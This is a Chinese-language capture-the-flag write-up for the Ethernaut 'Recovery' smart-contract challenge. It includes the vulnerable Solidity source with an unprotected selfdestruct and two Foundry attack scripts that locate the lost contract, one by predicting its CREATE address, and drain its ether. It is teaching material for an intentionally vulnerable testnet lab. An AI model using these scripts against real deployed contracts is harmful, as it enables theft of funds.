



## Recovery

### 目标：

找到丢失的合约地址，然后从其中恢复代币

### 思路：

首先我要先获取第二个合约`SimpleToken`的地址，利用cast send调用第一个合约的函数， 从而产生新实例



调用完第一个合约后，去测试网找到第二个合约的地址



emmm……,这思路错了，我如果调用第一个合约函数，产生的新实例中没有代币，也就代表我从其中获取不到Token

我又获取了一个新实例，在测试网上找到了这笔交易，显然这其中是存在0.001以太坊交易的，然 后利用题目中的自毁函数取出即可



### 源码：

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Recovery {
    //generate tokens
    function generateToken(string memory _name, uint256 _initialSupply) public {
        new SimpleToken(_name, msg.sender, _initialSupply);
    }
}

contract SimpleToken {
    string public name;
    mapping(address => uint256) public balances;

    // constructor
    constructor(string memory _name, address _creator, uint256 _initialSupply) {
        name = _name;
        balances[_creator] = _initialSupply;
    }

    // collect ether in return for tokens
    receive() external payable {
        balances[msg.sender] = msg.value * 10;
    }

    // allow transfers of tokens
    function transfer(address _to, uint256 _amount) public {
        require(balances[msg.sender] >= _amount);
        balances[msg.sender] = balances[msg.sender] - _amount;
        balances[_to] = _amount;
    }

    // clean up after ourselves
    function destroy(address payable _to) public {
        selfdestruct(_to);
    }
}
```

### Poc：

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import "../src/Recovery.sol";


contract Attack is Script{
    SimpleToken simpleToken = SimpleToken(payable(0x1507Bb084b53dc3Fe7A532CBA3c9f80e7632eB86));
    function run() external{
        vm.startBroadcast();

        simpleToken.destroy(payable(msg.sender));

        vm.stopBroadcast();
    }
}
```

使用create地址预测重新做一遍

正常来说create地址需要这样预测`address = keccak256(RLP([creator, nonce]))[12:]`，但是直接写会发生报错，因为Solidity 本身没有内置 RLP 编码函数，需要引入第三方 RLP 库或者手动编码。所以直接用vm作弊码写这道题比较方便

在foundry框架中，已经封装好了，利用`vm.computeCreateAddress(地址，Nonce)`即可直接求出SimpleToken的合约地址

合约账户创建后，其账户 nonce 初始化为 1，第一次通过 CREATE 创建子合约时使用 nonce=1，EOA第一次发送交易Nonce从0开始

### Poc：

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import "../src/Recovery.sol";

contract Attack is Script {
    SimpleToken target = SimpleToken(payable(vm.computeCreateAddress(0x970F22585cc859129eaC87277c874AB000ead6d0, 1)));

    function run() external {
        vm.startBroadcast();
        
        target.destroy(payable(msg.sender));
        
        vm.stopBroadcast();
    }
}
```


